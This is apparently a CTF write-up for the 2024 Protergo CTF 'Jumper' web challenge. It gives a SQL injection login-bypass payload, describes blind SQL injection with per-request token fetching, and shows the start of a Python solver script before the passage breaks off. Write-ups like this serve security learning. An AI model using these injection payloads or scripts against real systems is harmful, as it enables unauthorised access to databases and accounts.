 ```yaml
---
title: Protergo CTF
author: araisantai
date: 2024-02-01 00:00:00 +/-TTTT
categories: [CTFs Archive, 2024 CTF]
tags: [CTFs]     # TAG names should always be lowercase
comments: true
toc: true
mermaid: true
img_path: /assets/img/posts/
---
```

# Protergo CTF

2024 Protergo CTF, 7 Days CTF Challenges by Protergo
- Tags: national
- Status: Done
- pwned: 3

## Jumper

`url : tokyo.ctf.protergo.party:10002`
### Analyze
Given a web service containing a simple login page. By performing a simple SQL injection bypass, we successfully bypassed the login using the payload `' or 1=1 -- -`.

![Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled.png](Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled.png)

This redirected us to the dashboard.

![Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%201.png](Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%201.png)

From here, I performed blind SQL injection to dump the table. The request flow is as follows: the website generates a token, which is then used to post login data, so we need to retrieve the token every time we send a query.

![Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%202.png](Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%202.png)

From there, it's just a matter of creating the following simple script.
### Solver
```python
import requests
import re
import base64

url = "http://tokyo.ctf.protergo.party:10002/"
cookie = {"laravel_session":"w8DdHi4IgwEMV5lWoKnppOOxWgH5nGBXVYGZDddb;"}
payload = {"username": "asd' -- -",
          "password":"asd' -- -"}

def get_token():
    token = url +  "api/token"
    res = requests.get(token, cookies=cookie)
    return res.json()['data']['token']

def check2(data):
   print(data.text)
   return re.search("true", data.text)

def blind(kolom,table):
   login = url + "api/login"
```